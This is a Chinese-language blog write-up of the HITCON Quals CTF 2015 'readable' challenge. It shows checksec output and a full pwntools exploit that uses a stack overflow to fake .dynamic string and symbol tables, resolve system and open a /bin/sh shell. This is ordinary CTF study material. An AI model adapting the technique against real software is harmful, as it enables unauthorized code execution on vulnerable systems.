 ```yaml
---
layout: post
title: HITCON QUALS CTF 2015 readable writeup
categories:
  - 安全
url: 602.html
id: 602
comments: false
date: 2017-05-15 14:22:39
tags:
---
```


readable下载： [readable](https://github.com/ctfs/write-ups-2015/raw/master/hitcon-ctf-quals-2015/pwn/readable/readable-9e377f8e1e38c27672768310188a8b99) checksec:

Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

逻辑： ![](http://skysider.com/wp-content/uploads/2017/05/readable-300x74.png) 非常清晰的栈溢出漏洞，刚好可以覆盖到返回地址， Exp如下：

#!/usr/bin/env python
from pwn import *
import pdb
import sys


binary = ELF("./readable")
context.terminal = \['tmux', 'splitw', '-h'\]
DEBUG = 1
GDB_DEBUG = 1

if len(sys.argv) > 1:
    DEBUG = int(sys.argv\[1\])

if DEBUG:
    context.log_level = 'debug'
    proc = binary.process()


def writeData(data, addr):
    content = "A" * 16
    content += p64(addr + 0x10)  # written from this address - 0x10
    content += p64(0x400505)
    content += data.ljust(16, '\\x00')
    content += p64(0x600e00)
    content += p64(0x400505)  # lea rax, \[rbp+buf\]
    proc.send(content)


def exp():

    buf\_base = 0x600c00  # buf\_base - .dynmaic->VERSYM >= 0x180
    # because sub esp, 0x180 in \_dl\_runtime\_resolve\_avx, otherwise
    # it will overwrite .dynamic section
    buf = p64(0x400593)  # pop rdi; ret
    buf += p64(buf_base + 0x28)  # binsh address
    buf += p64(0x4003d0)  # plt0 address
    buf += p64(0)
    buf += "system".ljust(8, '\\x00')
    buf += "/bin/sh\\x00"

    # modify .dynamic STRTAB and SYMTAB
    dynamic_addr = 0x6006f8
    # STRTAB is the 8th item in .dynamic section, and SYMTAB is just behind
    buf2\_base = dynamic\_addr + 8 * 0x10
    buf2 = p64(5)  # DT_STRTAB
    buf2 += p64(buf_base + 0x20)  # fake strtab address
    buf2 += p64(6)  # DT_SYMTAB
    buf2 += p64(0x600f00)  # fake symtab address，default 0

    if DEBUG and GDB_DEBUG:
        gdb.attach(proc, """
            b *\_dl\_fixup+0x209
            """)

    for i in range(0, len(buf), 16):
        writeData(buf\[i:i + 16\], buf_base + i)

    for i in range(0, len(buf2), 16):
        writeData(buf2\[i:i + 16\], buf2_base + i)

    # pdb.set_trace()
    proc.send('\\x90' * 16 + p64(buf_base - 8) + p64(0x400520))

    proc.interactive()


exp()

参考： [https://github.com/pwning/public-writeup/blob/master/hitcon2015/pwn300-readable/writeup.md](https://github.com/pwning/public-writeup/blob/master/hitcon2015/pwn300-readable/writeup.md)